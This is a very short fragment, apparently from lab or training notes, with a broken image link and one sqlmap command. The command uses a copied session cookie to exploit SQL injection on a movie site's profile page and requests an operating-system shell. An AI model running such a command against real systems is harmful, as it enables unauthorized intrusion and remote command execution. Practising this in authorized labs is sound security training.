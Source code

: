 #SQLMAP
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell
